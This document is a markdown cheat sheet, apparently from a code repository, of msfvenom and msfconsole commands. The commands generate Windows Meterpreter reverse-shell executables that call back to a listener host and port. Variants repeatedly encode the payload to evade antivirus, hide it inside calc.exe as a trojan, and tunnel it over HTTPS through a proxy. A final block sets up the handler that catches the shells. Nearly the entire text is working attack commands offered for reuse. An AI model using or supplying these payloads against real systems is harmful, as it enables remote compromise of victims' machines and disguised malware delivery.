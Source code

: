 # Msfvenom

Examples of previously created MSFVenom payloads required in the different scenarios

##### Reverse TCP:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -o shell.exe
```

##### Encoded multiple times:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -e x86/shikata_ga_nai -i 10 -f exe -o shell.exe
```

##### Add Windows Calc.exe as a template:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -f exe -x calc.exe -f exe -o calc-shell.exe
```

##### Reverse HTTPS with proxy authentication:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_https HttpProxyUser=user HttpProxyPass=password LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -o shell.exe
```

##### MSF Console:
```
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
windows/meterpreter/reverse_tcp
set lhost 10.0.0.1
set lport 443
exploit -j
```

